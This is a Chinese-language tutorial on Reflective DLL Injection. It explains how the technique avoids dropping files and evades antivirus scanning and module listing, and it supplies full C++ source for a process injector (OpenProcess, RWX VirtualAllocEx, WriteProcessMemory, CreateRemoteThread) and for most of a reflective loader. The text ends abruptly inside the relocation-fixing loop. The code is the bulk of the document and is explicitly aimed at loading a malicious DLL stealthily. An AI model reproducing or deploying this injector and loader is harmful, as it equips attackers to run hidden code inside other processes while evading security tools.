


# Reflective DLL Injection

## RDI介绍

**Reflective DLL Injection (反射式 DLL 注入)** 实现了无文件落地攻击（Fileless Attack）。通过在 DLL 内部实现一个自举函数（ReflectiveLoader），让 DLL 能够像 Shellcode 一样在内存中自己加载自己，而不依赖系统的 LoadLibrary来加载DLL文件，以此来绕过一些av的file scan。

> 本质就是自实现的LoadLibraryA函数，并可以做更多的调整。
>
> createremotethread的入口点需要计算reflective loader的偏移量
>
> 可以修改关键字来避免字符串检测。


### 反射式DLL 注入与普通DLL注入区别

#### 普通DLL注入：

dll注入种类众多，这里以**远程线程注入 (CreateRemoteThread)**为例

- 核心 API 是 CreateRemoteThread。
- 线程的入口函数是 LoadLibrary。
- 写入内存的内容是 **DLL 的文件路径**。




#### 反射式注入：




从以上两张流程图可以发现这两者的主要区别如下：

| 维度         | 普通 DLL 注入                                                | 反射式 DLL 注入 (RDI)                                        |
| ------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **硬盘文件** | 必须落地 (需要文件路径)                                      | 完全不落地 (Fileless，只在内存中)                            |
| **加载机制** | 依赖系统 (LoadLibrary API)                                   | 自己实现 (ReflectiveLoader 手动模拟加载)                     |
| **注入内容** | 只写入**路径字符串**                                         | 写入**整个 DLL 文件数据**                                    |
| **隐蔽性**   | **差**。在任务管理器或 Process Explorer 的“模块列表”中一眼就能看到。 | **极高**。在模块列表中**看不到**，它只是一块被标记为可执行的私有内存。 |
| **杀软检测** | 容易 (文件扫描 + API 监控)                                   | 较难 (主要靠内存扫描行为检测)                                |


## RDI代码

接下来RDI 分为两个独立的部分进行分析：

- **Injector (注入器)**：负责把 DLL 的原始文件数据（Raw Bytes）塞进目标进程，并启动远程线程。
- **The DLL (Reflective Loader)**：DLL 自身导出的一个特殊函数，负责在内存中把自己“安装”好。

### 注入器 (**Injector 端**) 

注入器简单来说主要做了一件事：

**把DLL写入目标进程，找到** **ReflectiveLoader** **在DLL中的位置，然后从这个地方开始运行DLL文件**

#### 代码流程

1. **读取文件**：把恶意的 DLL 文件以二进制形式读入本地堆。
2. **获取权限**：获取目标进程的句柄（OpenProcess）。
3. **分配内存**：在目标进程中申请一块内存（VirtualAllocEx），大小等于 DLL 文件的大小。
4. **写入数据**：将 DLL 的原始字节流写入目标进程（WriteProcessMemory）。
5. **计算偏移 (关键)**：
   - 注入器需要找到 DLL 中导出函数 ReflectiveLoader 在**文件中的偏移量**。
   - 公式：EntryPoint = 目标进程分配的基址 + ReflectiveLoader的文件偏移。
6. **执行**：调用 CreateRemoteThread 从该偏移处开始执行。

#### 实现代码-inject.cpp

```
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>
#include <vector>
#include <fstream>

//获取进程 PID
DWORD GetPID(const char* procName) {
    //获得指定进程的快照
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    if (Process32First(hSnap, &pe32)) {
        do {
            //通过遍历当前所有进程的procName来寻找目标进程
            if (_stricmp(pe32.szExeFile, procName) == 0) {
                CloseHandle(hSnap);
                return pe32.th32ProcessID;
            }
        } while (Process32Next(hSnap, &pe32));
    }
    CloseHandle(hSnap);
    return 0;
}

//把内存里的相对地址（RVA）转换成文件在硬盘上的偏移地址（File Offset）
DWORD RvaToFileOffset(PIMAGE_NT_HEADERS pNt, DWORD rva) {
    PIMAGE_SECTION_HEADER pSection = IMAGE_FIRST_SECTION(pNt);
    for (int i = 0; i < pNt->FileHeader.NumberOfSections; i++) {
        DWORD size = pSection->Misc.VirtualSize ? pSection->Misc.VirtualSize : pSection->SizeOfRawData;
        if (rva >= pSection->VirtualAddress && rva < (pSection->VirtualAddress + size)) {
            //核心计算公式：File Offset=RVA - 该节在内存的起始地址 + 该节在文件中的起始位置
            return rva - pSection->VirtualAddress + pSection->PointerToRawData;
        }
        pSection++;
    }
    return 0;
}

//在 Raw Data 中查找 ReflectiveLoader 的文件偏移
DWORD GetLoaderOffset(void* data) {
    PIMAGE_DOS_HEADER pDos = (PIMAGE_DOS_HEADER)data;
    if (pDos->e_magic != IMAGE_DOS_SIGNATURE) return 0;
    PIMAGE_NT_HEADERS pNt = (PIMAGE_NT_HEADERS)((LPBYTE)data + pDos->e_lfanew);

    // 获取导出表 RVA
    DWORD exportRva = pNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
    if (!exportRva) return 0;

    // 转换导出表 RVA -> 文件偏移
    DWORD exportOffset = RvaToFileOffset(pNt, exportRva);
    PIMAGE_EXPORT_DIRECTORY pExport = (PIMAGE_EXPORT_DIRECTORY)((LPBYTE)data + exportOffset);

    DWORD* pNames = (DWORD*)((LPBYTE)data + RvaToFileOffset(pNt, pExport->AddressOfNames));
    WORD* pOrdinals = (WORD*)((LPBYTE)data + RvaToFileOffset(pNt, pExport->AddressOfNameOrdinals));
    DWORD* pFuncs = (DWORD*)((LPBYTE)data + RvaToFileOffset(pNt, pExport->AddressOfFunctions));

    for (DWORD i = 0; i < pExport->NumberOfNames; i++) {
        char* name = (char*)((LPBYTE)data + RvaToFileOffset(pNt, pNames[i]));
        // 查找导出函数 ReflectiveLoader
        if (strcmp(name, "ReflectiveLoader") == 0) {
            DWORD funcRva = pFuncs[pOrdinals[i]];
            return RvaToFileOffset(pNt, funcRva);
        }
    }
    return 0;
}

int main(int argc, char* argv[]) {
    if (argc < 3) {
        printf("Usage: inject.exe <process> <dll>\n");
        return 0;
    }

    // 1. 读取 DLL 到本地内存中
    std::ifstream file(argv[2], std::ios::binary | std::ios::ate);
    if (!file) { printf("[!] DLL not found\n"); return -1; }
    size_t size = file.tellg();
    std::vector<char> buffer(size);
    file.seekg(0);
    file.read(buffer.data(), size);
    file.close();

    // 2. 查找偏移
    DWORD offset = GetLoaderOffset(buffer.data());
    if (!offset) { printf("[!] ReflectiveLoader export not found!\n"); return -1; }

    // 3. 打开目标进程
    DWORD pid = GetPID(argv[1]);
    if (!pid) { printf("[!] Process not found\n"); return -1; }
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) { printf("[!] OpenProcess failed\n"); return -1; }

    // 4. 在目标进程分配内存(RWX)
    LPVOID pRemoteMem = VirtualAllocEx(hProcess, NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    //写入 DLL Raw Data
    if (!pRemoteMem) { printf("[!] Alloc failed\n"); return -1; }
    WriteProcessMemory(hProcess, pRemoteMem, buffer.data(), size, NULL);

    // 5. 计算远程入口地址(基址 +偏移)
    LPTHREAD_START_ROUTINE pEntry = (LPTHREAD_START_ROUTINE)((LPBYTE)pRemoteMem + offset);

    // 6. 执行 
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pEntry, pRemoteMem, 0, NULL);

    if (hThread) {
        printf("[+] Injected! Entry: %p\n", pEntry);
        CloseHandle(hThread);
    }
    else {
        printf("[!] CreateRemoteThread failed\n");
    }

    CloseHandle(hProcess);
    return 0;
}
```


### Reflective Loader (**DLL 端**) 

简单来说，ReflectiveLoader 的功能是 在不依赖系统LoadLibrary的情况下，手动完成**内存分配、数据复制、地址修复等工作**，让 DLL 可以在注入的进程中正常运行，最后调用DllMain，让DLL在内存中“自己加载自己”并运行起来。

#### 代码流程

##### 1、寻找自身基址 

- 由于Loader 刚开始运行时，不知道自己在内存的哪个位置。
- 所以需要利用 _ReturnAddress() 获取当前指令地址，然后在一个 while 循环中不断向低地址递减，暴力搜索 MZ (0x5A4D) 头部签名，直到找到 PE 头。

##### 2、获取关键 API

- 通过汇编指令获取 **PEB (进程环境块)**。

- 遍历 PEB->Ldr 链表找到 kernel32.dll 的基址。
- 手动解析 kernel32.dll 的导出表，通过对比函数名找到我们需要用的函数地址。

##### 3、分配新内存与复制

- Loader 此时运行在“乱塞”进来的内存里。它需要申请一块新的、符合 PE 对齐要求的内存空间。
- **复制 Header**：把 PE 头拷过去。
- **复制 Sections**：遍历所有节（.text, .data 等），把它们从文件偏移位置（Raw Pointer）复制到虚拟内存地址（Virtual Address）。

##### 4、修复导入表

- 遍历 DLL 的导入表（Import Directory）。
- 调用 LoadLibraryA 加载依赖的模块（如 user32.dll）。
- 调用 GetProcAddress 获取依赖函数的真实地址，填入 IAT（导入地址表）。

##### 5、修复重定位

- 计算 **Delta**：新申请的内存基址 - DLL 编译时的优选基址。
- 遍历重定位表（Relocation Directory），将所有涉及绝对地址的代码都加上这个 Delta 值，修正内存指向。

##### 6、执行DllMain 

- 调用 FlushInstructionCache 刷新 CPU 指令缓存（防止执行旧数据）。
- 找到 DllMain 的地址并调用它，传入 DLL_PROCESS_ATTACH。


#### 核心部分解析

##### 1、定义ReflectiveLoader函数

```
extern "C" __declspec(dllexport) ULONG_PTR ReflectiveLoader(LPVOID lpParameter) 
```

由于Windows 会自动把 Injector（注射器）中的CreateRemoteThread函数的第5个参数 (pRemoteMem)塞进CPU的寄存器（x64下是RCX寄存器），当作ReflectiveLoader函数的第一个参数传进去。

所以在定义ReflectiveLoader时，传入的参数lpParameter是DLL在远程内存的起始地址，也就是VirtualAllocEx申请到的内存地址

> 此处可以参考CreateRemoteThread的相关定义
>
> https://learn.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread

##### 2、获取 Kernel32和核心API

首先通过链表遍历 Exe -> 2. Ntdll -> 3. Kernel32 获取到Kernel32

```
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink->Flink - 0x10);
    HMODULE hKernel32 = (HMODULE)pLdr->DllBase;
```

然后循环查找API：

- 遍历 Kernel32 的所有导出函数名。
- 使用 _strcmp（自己写的字符串对比）找到 LoadLibraryA, GetProcAddress, VirtualAlloc和NtFlush。
- 保存这些函数指针，后续使用

```
for (DWORD i = 0; i < pExport->NumberOfNames; i++) {
    char* name = (char*)((LPBYTE)hKernel32 + pNames[i]);

    // 直接比较字符串
    if (_strcmp(name, strLoadLibraryA) == 0) {
        pLoadLibraryA = (LOADLIBRARYA)((LPBYTE)hKernel32 + pFuncs[pOrdinals[i]]);
    }
    else if (_strcmp(name, strGetProcAddress) == 0) {
        pGetProcAddress = (GETPROCADDRESS)((LPBYTE)hKernel32 + pFuncs[pOrdinals[i]]);
    }
    else if (_strcmp(name, strVirtualAlloc) == 0) {
        pVirtualAlloc = (VIRTUALALLOC)((LPBYTE)hKernel32 + pFuncs[pOrdinals[i]]);
    }
    else if (_strcmp(name, strNtFlush) == 0) {
        pNtFlushInstructionCache = (NTFLUSHINSTRUCTIONCACHE)((LPBYTE)hKernel32 + pFuncs[pOrdinals[i]]);
    }
}
```

**注意**：此处循环遍历处使用的是API的栈字符串形式，而不是普通的字符串常量 "LoadLibraryA" 

```
char strLoadLibraryA[] = { 'L','o','a','d','L','i','b','r','a','r','y','A', 0 };
```

因为普通的字符串常量 "LoadLibraryA" 存储在 .rdata 段。在重定位修复之前，访问全局变量会导致访问错误的内存地址（崩溃）。**而栈字符串是硬编码在指令里的，不依赖全局数据区。**

##### 3、复制Headers 和Sections

复制Headers：

```
_memcpy((void*)uiBaseAddress, (void*)uiLibraryAddress, pNt->OptionalHeader.SizeOfHeaders);
```

- uiLibraryAddress: 旧地址。
- uiBaseAddress: 新地址。
- SizeOfHeaders: 头文件的大小（通常是 1024 字节或 4096 字节）。

复制Sections：

```
PIMAGE_SECTION_HEADER pSection = IMAGE_FIRST_SECTION(pNt);
for (int i = 0; i < pNt->FileHeader.NumberOfSections; i++) {
    // 1. 计算目标位置
    void* dest = (void*)(uiBaseAddress + pSection[i].VirtualAddress);
    // 2. 计算源位置
    void* src = (void*)(uiLibraryAddress + pSection[i].PointerToRawData);
    // 3. 搬运
    _memcpy(dest, src, pSection[i].SizeOfRawData);
}
```

- **pSection[i].VirtualAddress (RVA)**：这是该节在**内存**中相对于基址的偏移。
- **pSection[i].PointerToRawData (File Offset)**：这是该节在**文件**（Raw Data）中相对于开头的偏移。
- **pSection[i].SizeOfRawData**：一个节的大小。

##### 4、**修复导入表**

**先找到导入表在哪**

```
    PIMAGE_DATA_DIRECTORY pImportDir = &pNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
    PIMAGE_IMPORT_DESCRIPTOR pImportDesc = (PIMAGE_IMPORT_DESCRIPTOR)(uiBaseAddress + pImportDir->VirtualAddress);
```

pImportDesc 指向了一个数组，数组里的每一项代表一个你的 DLL 所依赖的外部 DLL（比如 kernel32.dll, user32.dll）。

**外层循环：遍历依赖的 DLL并准备遍历函数**

```
while (pImportDesc->Name) {
	char* szModName = (char*)(uiBaseAddress + pImportDesc->Name);
	HMODULE hImportMod = pLoadLibraryA(szModName);
	PIMAGE_THUNK_DATA pThunk = (PIMAGE_THUNK_DATA)(uiBaseAddress + pImportDesc->FirstThunk);
	PIMAGE_THUNK_DATA pOrigThunk = (PIMAGE_THUNK_DATA)(uiBaseAddress + pImportDesc->OriginalFirstThunk);
	while（内层循环）
	pImportDesc++; // 处理下一个依赖的 DLL
}
```

先用szModName 拿到了名字字符串（例如 "USER32.dll"），然后调用 pLoadLibraryA（这是我们在 Step 2 自己找到的函数指针）来加载这个 DLL。必须先把依赖的 DLL 加载到目标进程的内存里，我们才能去里面找函数。

- pThunk (INT)：存的是**函数名**
- pThunk (IAT)：存的是**函数地址** 

**内层循环：遍历该 DLL 下的具体函数并填入真实地址**

```
while (pOrigThunk->u1.AddressOfData) {
    if (pOrigThunk->u1.Ordinal & IMAGE_ORDINAL_FLAG) {
        pThunk->u1.Function = (ULONG_PTR)pGetProcAddress(hImportMod, (char*)(pOrigThunk->u1.Ordinal & 0xFFFF));
    }
    else {
        PIMAGE_IMPORT_BY_NAME pIbN = (PIMAGE_IMPORT_BY_NAME)(uiBaseAddress + pOrigThunk->u1.AddressOfData);
        pThunk->u1.Function = (ULONG_PTR)pGetProcAddress(hImportMod, (char*)pIbN->Name);
    }
    pThunk++;
    pOrigThunk++;
}
```

**情况 A：按序号导入**

```
pThunk->u1.Function = (ULONG_PTR)pGetProcAddress(hImportMod, (char*)(pOrigThunk->u1.Ordinal & 0xFFFF));
```

- 有些函数没有名字，只有一个编号（Ordinal）。
- 这里通过编号调用 pGetProcAddress 拿到地址，直接填进 pThunk->u1.Function。

**情况 B：按名称导入 (Import by Name) —— 最常见**

```
PIMAGE_IMPORT_BY_NAME pIbN = (PIMAGE_IMPORT_BY_NAME)(uiBaseAddress + pOrigThunk->u1.AddressOfData);
pThunk->u1.Function = (ULONG_PTR)pGetProcAddress(hImportMod, (char*)pIbN->Name);
```

1. 从 pOrigThunk 里拿到函数名的位置 (pIbN->Name)，比如 "MessageBoxA"。
2. 调用 pGetProcAddress 去刚才加载的 hImportMod 里查找这个名字对应的**真实内存地址**。
3. 把这个真实地址赋值给 pThunk->u1.Function。

- **结果**：pThunk 指向的内存位置（IAT），原本存的是个名字偏移，现在被覆盖成了真实的函数地址（例如 0x7FF...）。

##### 5、修复重定位

计算**差值 (Delta)** = 实际基址 - 理想基址。

```
ULONG_PTR uiDelta = uiBaseAddress - pNt->OptionalHeader.ImageBase;
```

- uiBaseAddress: 刚才 VirtualAlloc 出来的真实地址。
- ImageBase: 编译器生成 DLL 时预设的理想地址。
- uiDelta: 两者的差距。

**遍历重定位块**

重定位表不是一长串列表，而是分块管理的。**每一块负责描述 4KB (一页) 内存里的重定位信息。**

```
while (pReloc->SizeOfBlock) {
    // 算出这一块里有多少个重定位项
    // 总大小减去头大小，除以每项的大小(WORD, 2字节)
    DWORD dwCount = (pReloc->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
    // 指向具体的重定位项列表
    WORD* pList = (WORD*)((LPBYTE)pReloc + sizeof(IMAGE_BASE_RELOCATION));
```

**解析每一个重定位项**

重定位项是一个 WORD (16位整数)，它使用了**位压缩**技术：

- **高 4 位**：代表 **类型 (Type)**。
- **低 12 位**：代表 **页内偏移 (Offset)**。

```
for (DWORD i = 0; i < dwCount; i++) {
    if (pList[i] > 0) { // 简单检查，跳过空项
        DWORD type = pList[i] >> 12;     // 右移12位，取高4位 -> 类型
        DWORD offset = pList[i] & 0xFFF; // 与操作，取低12位 -> 偏移
```

**核心修复逻辑**        

根据 **类型** 来决定怎么修。

```
// 情况 1: 64位地址 (x64系统最常见)
        if (type == IMAGE_REL_BASED_DIR64) {
            // 1. 算出要修改的内存地址 = 基址 + 这一页的RVA + 页内偏移
            // 2. 取出里面的值 (*ULONG_PTR*)
            // 3. 加上差值 (+= uiDelta)
            *(ULONG_PTR*)(uiBaseAddress + pReloc->VirtualAddress + offset) += uiDelta;
        }
// 情况 2: 32位地址 (x86系统)
        else if (type == IMAGE_REL_BASED_HIGHLOW) {
            *(DWORD*)(uiBaseAddress + pReloc->VirtualAddress + offset) += (DWORD)uiDelta;
        }
        // 情况 3: IMAGE_REL_BASED_ABSOLUTE (Type 0)
        // 这种类型仅用于对齐填充，什么都不做。 
```

#### 代码实现-dllmain.cpp

```
#include <windows.h>
#include <intrin.h>

// =============================================================
//  1. 手动定义 Windows 内部结构体
// =============================================================

typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING;

typedef struct _PEB_LDR_DATA {
    ULONG Length;
    BOOLEAN Initialized;
    PVOID SsHandle;
    LIST_ENTRY InLoadOrderModuleList;
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
    PVOID EntryInProgress;
    BOOLEAN ShutdownInProgress;
    HANDLE ShutdownThreadId;
} PEB_LDR_DATA, * PPEB_LDR_DATA;

typedef struct _LDR_DATA_TABLE_ENTRY {
    LIST_ENTRY InLoadOrderLinks;
    LIST_ENTRY InMemoryOrderLinks;
    LIST_ENTRY InInitializationOrderLinks;
    PVOID DllBase;
    PVOID EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
} LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;

typedef struct _PEB {
    BOOLEAN InheritedAddressSpace;
    BOOLEAN ReadImageFileExecOptions;
    BOOLEAN BeingDebugged;
    union {
        BOOLEAN BitField;
        struct {
            BOOLEAN ImageUsesLargePages : 1;
            BOOLEAN IsProtectedProcess : 1;
            BOOLEAN IsImageDynamicallyRelocated : 1;
            BOOLEAN SkipPatchingUser32Forwarders : 1;
            BOOLEAN IsPackagedProcess : 1;
            BOOLEAN IsAppContainer : 1;
            BOOLEAN IsProtectedProcessLight : 1;
            BOOLEAN IsLongPathAwareProcess : 1;
        };
    };
    HANDLE Mutant;
    PVOID ImageBaseAddress;
    PPEB_LDR_DATA Ldr;
} PEB, * PPEB;

// =============================================================
//  2. 辅助函数
// =============================================================


typedef HMODULE(WINAPI* LOADLIBRARYA)(LPCSTR);
typedef FARPROC(WINAPI* GETPROCADDRESS)(HMODULE, LPCSTR);
typedef LPVOID(WINAPI* VIRTUALALLOC)(LPVOID, SIZE_T, DWORD, DWORD);
typedef DWORD(WINAPI* NTFLUSHINSTRUCTIONCACHE)(HANDLE, PVOID, ULONG);
typedef BOOL(WINAPI* DLLMAIN)(HINSTANCE, DWORD, LPVOID);

void _memcpy(void* dest, void* src, size_t len) {
    char* d = (char*)dest;
    char* s = (char*)src;
    while (len--) *d++ = *s++;
}
// 自定义字符串比较函数，代替标准库的 strcmp
int _strcmp(const char* s1, const char* s2) {
    while (*s1 && (*s1 == *s2)) {
        s1++;
        s2++;
    }
    return *(const unsigned char*)s1 - *(const unsigned char*)s2;
}

// =============================================================
//  3. ReflectiveLoader (核心)
// =============================================================
extern "C" __declspec(dllexport) ULONG_PTR ReflectiveLoader(LPVOID lpParameter) {

    // STEP 1: 基址定位
    ULONG_PTR uiLibraryAddress = (ULONG_PTR)lpParameter;
    if (uiLibraryAddress == 0) {
        uiLibraryAddress = (ULONG_PTR)_ReturnAddress();
        while (true) {
            if (((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_magic == IMAGE_DOS_SIGNATURE) {
                ULONG_PTR uiHeaderValue = ((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_lfanew;
                if (uiHeaderValue >= sizeof(IMAGE_DOS_HEADER) && uiHeaderValue < 1024) {
                    if (((PIMAGE_NT_HEADERS)(uiLibraryAddress + uiHeaderValue))->Signature == IMAGE_NT_SIGNATURE) {
                        break;
                    }
                }
            }
            uiLibraryAddress--;
        }
    }

    PIMAGE_DOS_HEADER pDos = (PIMAGE_DOS_HEADER)uiLibraryAddress;
    PIMAGE_NT_HEADERS pNt = (PIMAGE_NT_HEADERS)(uiLibraryAddress + pDos->e_lfanew);

    // STEP 2: 获取 Kernel32 (修正版)
    PPEB pPeb = (PPEB)__readgsqword(0x60);

    // 链表遍历修正：需要跳 3 次才能找到 Kernel32
    // 1. Exe -> 2. Ntdll -> 3. Kernel32
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink->Flink - 0x10);
    HMODULE hKernel32 = (HMODULE)pLdr->DllBase;

    // 解析导出表
    PIMAGE_EXPORT_DIRECTORY pExport = (PIMAGE_EXPORT_DIRECTORY)((LPBYTE)hKernel32 +
        ((PIMAGE_NT_HEADERS)((LPBYTE)hKernel32 + ((PIMAGE_DOS_HEADER)hKernel32)->e_lfanew))->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

    DWORD* pNames = (DWORD*)((LPBYTE)hKernel32 + pExport->AddressOfNames);
    WORD* pOrdinals = (WORD*)((LPBYTE)hKernel32 + pExport->AddressOfNameOrdinals);
    DWORD* pFuncs = (DWORD*)((LPBYTE)hKernel32 + pExport->AddressOfFunctions);

    LOADLIBRARYA pLoadLibraryA = NULL;
    GETPROCADDRESS pGetProcAddress = NULL;
    VIRTUALALLOC pVirtualAlloc = NULL;
    NTFLUSHINSTRUCTIONCACHE pNtFlushInstructionCache = NULL;

    // 为了防止 RDI 在重定位前访问全局 .rdata，我们使用字符数组在栈上构建字符串
    char strLoadLibraryA[] = { 'L','o','a','d','L','i','b','r','a','r','y','A', 0 };
    char strGetProcAddress[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s', 0 };
    char strVirtualAlloc[] = { 'V','i','r','t','u','a','l','A','l','l','o','c', 0 };
    char strNtFlush[] = { 'N','t','F','l','u','s','h','I','n','s','t','r','u','c','t','i','o','n','C','a','c','h','e', 0 };

    for (DWORD i = 0; i < pExport->NumberOfNames; i++) {
        char* name = (char*)((LPBYTE)hKernel32 + pNames[i]);

        // 直接比较字符串
        if (_strcmp(name, strLoadLibraryA) == 0) {
            pLoadLibraryA = (LOADLIBRARYA)((LPBYTE)hKernel32 + pFuncs[pOrdinals[i]]);
        }
        else if (_strcmp(name, strGetProcAddress) == 0) {
            pGetProcAddress = (GETPROCADDRESS)((LPBYTE)hKernel32 + pFuncs[pOrdinals[i]]);
        }
        else if (_strcmp(name, strVirtualAlloc) == 0) {
            pVirtualAlloc = (VIRTUALALLOC)((LPBYTE)hKernel32 + pFuncs[pOrdinals[i]]);
        }
        else if (_strcmp(name, strNtFlush) == 0) {
            pNtFlushInstructionCache = (NTFLUSHINSTRUCTIONCACHE)((LPBYTE)hKernel32 + pFuncs[pOrdinals[i]]);
        }
    }

    if (!pLoadLibraryA || !pGetProcAddress || !pVirtualAlloc) return 0;

    // STEP 3: 申请内存
    ULONG_PTR uiBaseAddress = (ULONG_PTR)pVirtualAlloc(NULL, pNt->OptionalHeader.SizeOfImage, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!uiBaseAddress) return 0;

    // STEP 4: 复制 Headers
    _memcpy((void*)uiBaseAddress, (void*)uiLibraryAddress, pNt->OptionalHeader.SizeOfHeaders);

    // STEP 5: 复制 Sections
    PIMAGE_SECTION_HEADER pSection = IMAGE_FIRST_SECTION(pNt);
    for (int i = 0; i < pNt->FileHeader.NumberOfSections; i++) {
        void* dest = (void*)(uiBaseAddress + pSection[i].VirtualAddress);
        void* src = (void*)(uiLibraryAddress + pSection[i].PointerToRawData);
        _memcpy(dest, src, pSection[i].SizeOfRawData);
    }

    // STEP 6: 修复导入表
    PIMAGE_DATA_DIRECTORY pImportDir = &pNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
    if (pImportDir->Size) {
        PIMAGE_IMPORT_DESCRIPTOR pImportDesc = (PIMAGE_IMPORT_DESCRIPTOR)(uiBaseAddress + pImportDir->VirtualAddress);
        while (pImportDesc->Name) {
            char* szModName = (char*)(uiBaseAddress + pImportDesc->Name);
            HMODULE hImportMod = pLoadLibraryA(szModName);
            PIMAGE_THUNK_DATA pThunk = (PIMAGE_THUNK_DATA)(uiBaseAddress + pImportDesc->FirstThunk);
            PIMAGE_THUNK_DATA pOrigThunk = (PIMAGE_THUNK_DATA)(uiBaseAddress + pImportDesc->OriginalFirstThunk);
            if (!pImportDesc->OriginalFirstThunk) pOrigThunk = pThunk;

            while (pOrigThunk->u1.AddressOfData) {
                if (pOrigThunk->u1.Ordinal & IMAGE_ORDINAL_FLAG) {
                    pThunk->u1.Function = (ULONG_PTR)pGetProcAddress(hImportMod, (char*)(pOrigThunk->u1.Ordinal & 0xFFFF));
                }
                else {
                    PIMAGE_IMPORT_BY_NAME pIbN = (PIMAGE_IMPORT_BY_NAME)(uiBaseAddress + pOrigThunk->u1.AddressOfData);
                    pThunk->u1.Function = (ULONG_PTR)pGetProcAddress(hImportMod, (char*)pIbN->Name);
                }
                pThunk++;
                pOrigThunk++;
            }
            pImportDesc++;
        }
    }

    // STEP 7: 修复重定位 (严谨版)
    PIMAGE_DATA_DIRECTORY pRelocDir = &pNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
    if (pRelocDir->Size) {
        ULONG_PTR uiDelta = uiBaseAddress - pNt->OptionalHeader.ImageBase;
        PIMAGE_BASE_RELOCATION pReloc = (PIMAGE_BASE_RELOCATION)(uiBaseAddress + pRelocDir->VirtualAddress);
        while (pReloc->SizeOfBlock) {
